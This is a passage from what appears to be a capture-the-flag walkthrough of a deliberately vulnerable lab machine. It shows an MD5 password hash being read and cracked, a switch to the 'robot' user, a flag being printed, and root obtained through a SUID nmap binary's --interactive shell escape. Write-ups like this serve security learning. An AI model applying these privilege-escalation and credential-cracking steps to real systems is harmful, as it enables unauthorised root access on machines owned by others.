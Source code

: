 Found a directory called /home/robot with the second key, as well as a file called password.raw-md5. I didn't have read permissions on the key, but I could read the contents of the password.raw-md5:

```
$ cat pass*
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Perhaps this was the password for the robot user account. Checking [md5cracker.org](http://md5cracker.org/decrypted-md5-hash/c3fcd3d76192e4007dfb496cca67e13b) revealed the password to be abcdefghijklmnopqrstuvwxyz

```
daemon@linux:/home/robot$ su - robot
su - robot
Password: abcdefghijklmnopqrstuvwxyz

$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
$ 
```

w00t! One step closer to pwning this box. I opened up the key file next:

```
$ cat key* 
cat key*
822c73956184f694993bede3eb39f959
```

Poking around some more I found that FTP and MySQL was listening on the local interface. 

```
$ netstat -lnp tcp
netstat -lnp tcp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:21            0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:2812          0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::443                  :::*                    LISTEN      -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               
udp        0      0 0.0.0.0:3025            0.0.0.0:*                           -               
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -               
udp6       0      0 :::53141                :::*                                -  
```

But more importantly, I found nmap in /usr/local/bin with SUID root privileges! This version of nmap also had the --interactive option, which meant I could run commands as root:

```
$ ls -l /usr/local/bin/nmap
ls -l /usr/local/bin/nmap
-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
$ /usr/local/bin/nmap --interactive
/usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !id
!id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
waiting to reap child : No child processes
nmap> 
```
